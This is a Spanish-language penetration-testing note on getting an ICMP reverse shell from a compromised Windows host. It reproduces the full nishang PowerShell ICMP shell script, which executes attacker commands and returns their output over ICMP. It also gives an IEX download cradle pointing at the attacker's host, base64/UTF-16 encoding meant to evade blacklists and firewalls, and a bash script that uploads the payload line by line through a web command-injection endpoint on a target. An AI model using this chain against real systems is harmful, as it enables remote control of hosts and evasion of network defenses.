 -----
- Tags: #teoria #practica #explotación
-----
# ICMP
El **Internet Control Message Protocolo** es parte del conjunto de protocolos IP. Es utilizado para enviar mensjes de error e información operativa indicando, por ejemplo, que un host no puede ser localizado o que un servicio se ha solicitao no está disponible.

-----
# Abuso 

La técnica **ICMP Reverse Shell** es utilizada para establecer una conexión inversa a través del protocolo ICMP desede una máquina comprometida a una máquina atacante. Esta técnica puede ser utilizada para evadir detecciones de seguridad y firewalls, ya que el tráfico ICMP a menudo se permite en muchas redes.

En este caso, podríamos usar el repositorio de [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1) en donde se comparten scripts como **PowerShellIcmp.ps1**.

```powershell
function Invoke-PowerShellIcmp
{        
    [CmdletBinding()] Param(

        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,

        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128

    )

    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptionsInvoke-PowerShellIcmp
    $PingOptions.DontFragment = $True

    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
        
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0

            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}
```
De este script podríamos eliminar todos los comentarios e invocar el mismo al final, agregando la línea `Invoke-PowerShellIcmp -IPAddress {our_ip}`. Puede ser interesante de cara a evitar posibles **black_lists** o **configuraciones de firewall** cambiar el nombre a la función.

Una vez descargado el script, deberiamos ejecutar dos procesos específicos.

**1.** Configurar el sistema para que ignore todas las solicitudes de eco ICMP entrantes, lo que es equivalente a desactivar la respuesta a los pings. Esto puede utilizarse como una medida de seguridad para evitar que otros equipos realicen ping al sistema.

```bash
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
**2.** Descargar el script [icmpsh_m.py](https://github.com/bdamele/icmpsh/blob/master/icmpsh_m.py) y ejecutarlo con las indicaciones dadas. El mismo implementa el shell inverso a través del protocolo ICMP.

```bash
sudo python icmpsh_m.py {our_ip} {target_ip}
```
En caso de que no podamos subir a la máquina víctima el mismo con   `IEX(New-Object Net.WebClient).downloadString('hgttp://{our_ip}/icmp_PowerShellIcmp.ps1')` podríamos intentar aplicar el concepto de `echo 'line to add' > C:\Temp\file` para línea por línea intentar cargar este script en un path determinado del sistema. 

Para realizar esto es importante quitar todos los saltos de línea del script.

```bash
cat PowerShellIcmp.ps1 | sed '/^\s*$/d' | sponge PowerShellIcmp.ps1
# El \s es equivalente al espacio, por lo que se indica eliminar todo lo que empiece (^) con un espacio (\s) y acabe ($) con nada serán eliminadas (/d)
```
Una vez eliminados los espacios, hay que tener en cuenta que los carácteres especiales sean un problema, por lo que es buena idea empezar a pensar en **base64**, aunque PowerShell no lo interpretará de manera correcta debido a los caracteres y el formato de codificación de los archivos de script.

Por lo que habría que cambiar con la herramienta **iconv** el formato de codificación del archivo a UTF-16, ya que es la manera en la que powershell espera leerlo.

```bash
cat PowerShellIcmp.ps1 | iconv -t utf-16le | base64 -w 0; echo > icmp_base64.ps1
```
De esta manera ahora tendríamos en poder un archivo con todo el script a cargar en el sistema víctima en el formato correcto y en base64.

Si tuvieramos que subir este archivo a la máquina victima y no tendríamos conectividad por TCP por **Firewalls**, sería importante tener en cuenta que no podríamos hacerlo de una única vez debido a que el comando **curl** o mismo el navegador tienen un limite, por lo que es buena idea emitir este por partes. Para realizar esto podemos hacer uso de la herramienta **fold** (Herramienta utilizada para dar formato y ajustar el ancho de las líneas de un archivo o texto). 

```bash
fold icmp_base64.ps1 | sponge icmp_base64.ps1
```

Una vez que tengamos el contenido de manerar óptima, quedaría subir el archivo. Por lo que podríamos crearnos un script en bash o python.

```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n\t[!] Quiting...\n\n"
	tput cnorm; exit 1
}

declare -r url="http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx"

counter=0

echo; tput civis; for line in $(cat icmp.ps1.b64); do
	command="echo+$line+>>+C:\Temp\icmp_cmd.ps1"
	echo -ne "[+] Line $counter sended [$counter/87]\r"
	curl -s -X GET "$url?xcmd=$command" &>/dev/null
	let counter+=1
done; tput cnorm
```
Una vez subido el archivo, el problema al cual nos enfrentamos es que tenemos toda la fución de PowerShell en base64, por lo que habría que decodearlo. Para hacer esto podríamos hacer uso de herramientas como **pwsh** las cuales nos brindan un entorno de prueba de PowerShell.

```powershell
powershell $functionb64 = Get-Content C:\Temp\icmp_cmd.ps1
# Guardar en la varibale functionb64 el contenido alojado en el archivo C:\Temp\icmp_cmd.ps1

powershell $decodeFunction = [System.Text.Encoding]::Unicode.getString([System.Convert]::FromBase64String($file64))
# Decodear de base64 el contenido de la función.

powershell $decodeFunction > C:\Temp\final_icmp_cmd.ps1
# Guardar la función decodeada en un nuevo archivo C:\Temp\final_icmp_cmd.ps1

powershell $functionb64 = Get-Content C:\Temp\icmp_cmd.ps1; $decodeFunction = [System.Text.Encoding]::Unicode.getString([System.Convert]::FromBase64String($file64)); $decodeFunction > C:\Temp\final_icmp_cmd.ps1
```
Como último, solo quedaría ejecutar el script final **powershell C:\Temp\final_icmp_cmd.ps1** y recibir la conexión. 
